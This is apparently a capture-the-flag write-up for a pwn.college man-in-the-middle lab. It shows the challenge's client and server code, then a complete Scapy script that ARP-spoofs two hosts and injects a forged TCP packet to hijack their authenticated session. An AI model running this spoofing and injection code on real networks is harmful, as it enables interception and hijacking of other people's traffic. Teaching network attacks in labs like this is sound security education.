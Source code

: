 ```yaml
---
tags: ["Computer Networking"]
title: "Man-in-the-middle"
description: Man-in-the-middle
reference: https://pwn.college/intro-to-cybersecurity/intercepting-communication/
---
```


# Problem

Man-in-the-middle traffic from a remote host. The remote host at 10.0.0.2 is communicating with the remote host at 10.0.0.3 on port 31337.

# Solution

## 1. see how 10.0.0.2 communicate with 10.0.0.3

10.0.0.2 and 10.0.0.3 have a shared secret.

```python
#!/usr/bin/exec-suid --real -- /usr/bin/python -I

import multiprocessing
import os
import socket
import time

import psutil
from dojjail import Host, Network

flag = open("/flag").read()
parent_process = psutil.Process(os.getppid())

class AuthenticatedClientHost(Host):
    def entrypoint(self):
        while True:
            try:
                client_socket = socket.socket()
                client_socket.connect(("10.0.0.3", 31337))

                assert client_socket.recv(1024) == b"secret: "
                secret = bytes(server_host.secret)  # Get the secret out-of-band
                time.sleep(1)
                client_socket.sendall(secret.hex().encode())

                assert client_socket.recv(1024) == b"command: "
                time.sleep(1)
                client_socket.sendall(b"echo")
                time.sleep(1)
                client_socket.sendall(b"Hello, World!")
                assert client_socket.recv(1024) == b"Hello, World!"

                client_socket.close()
                time.sleep(1)

            except (OSError, ConnectionError, TimeoutError, AssertionError):
                continue

class AuthenticatedServerHost(Host):
    def __init__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.secret = multiprocessing.Array("B", 32)

    def entrypoint(self):
        server_socket = socket.socket()
        server_socket.bind(("0.0.0.0", 31337))
        server_socket.listen()
        while True:
            try:
                connection, _ = server_socket.accept()

                self.secret[:] = os.urandom(32)
                time.sleep(1)
                connection.sendall(b"secret: ")
                secret = bytes.fromhex(connection.recv(1024).decode())
                if secret != bytes(self.secret):
                    connection.close()
                    continue

                time.sleep(1)
                connection.sendall(b"command: ")
                command = connection.recv(1024).decode().strip()

                if command == "echo":
                    data = connection.recv(1024)
                    time.sleep(1)
                    connection.sendall(data)
                elif command == "flag":
                    time.sleep(1)
                    connection.sendall(flag.encode())

                connection.close()
            except ConnectionError:
                continue

user_host = Host("ip-10-0-0-1", privileged_uid=parent_process.uids().effective)
```

## 2. make sure ip forwarding is enabled

We need this for forwarding packets from/to `10.0.0.2` and `10.0.0.3`.

```
hacker@intercepting-communication~man-in-the-middle:~$ sysctl net.ipv4.ip_forward
net.ipv4.ip_forward = 1
```

## 3.

1. Use ARP Spoofing to make IP packets to 10.0.0.3/10.0.0.2 will send to 10.0.0.1 eth device
2. When we capture the `command: ` TCP packet from `10.0.0.3`, we impersonate `10.0.0.2` to send the `flag` TCP packet to `10.0.0.3` so that `10.0.0.3` will send out the flag.

```python
1	from scapy.all import *
2	from scapy.layers.inet import *
3	from scapy.layers.l2 import *
4	
5	interface = "eth0"
6	local_mac = get_if_hwaddr(interface)
7	local_ip = "10.0.0.1"
8	ip1 = "10.0.0.2"
9	ip2 = "10.0.0.3"
10	
11	mac1=getmacbyip(ip=ip1)
12	mac2=getmacbyip(ip=ip2)
13	
14	eth=Ether(src=local_mac,dst="ff:ff:ff:ff:ff:ff")
15	arp1=ARP(op="is-at",hwsrc=local_mac, hwdst=mac2,psrc=ip1,pdst=ip2)
16	arp2=ARP(op="is-at",hwsrc=local_mac, hwdst=mac1,psrc=ip2,pdst=ip1)
17	sendp(eth/arp1,iface=interface)
18	sendp(eth/arp2,iface=interface)
19	
20	def process(pkt:Packet):
21	    try:
22	        print(pkt["Ether"].src, pkt["Ether"].dst, pkt["IP"].src, pkt["IP"].dst, pkt["TCP"].load)
23	        if pkt['TCP'].load==b"command: " and pkt["IP"].dst == ip1:
24	            forged = Ether(dst=mac2, src=local_mac) / IP(
25	                src=pkt[IP].dst,
26	                dst=pkt[IP].src
27	            ) / TCP(
28	                sport=pkt[TCP].dport,
29	                dport=pkt[TCP].sport,
30	                seq=pkt[TCP].ack,
31	                ack=pkt[TCP].seq + 1,
32	                flags="PA"
33	            ) / Raw(b"flag")
34	
35	            sendp(forged, iface="eth0")
36	    except Exception:
37	        pass
38	
39	sniff(iface=interface,filter="tcp",prn=process)
```
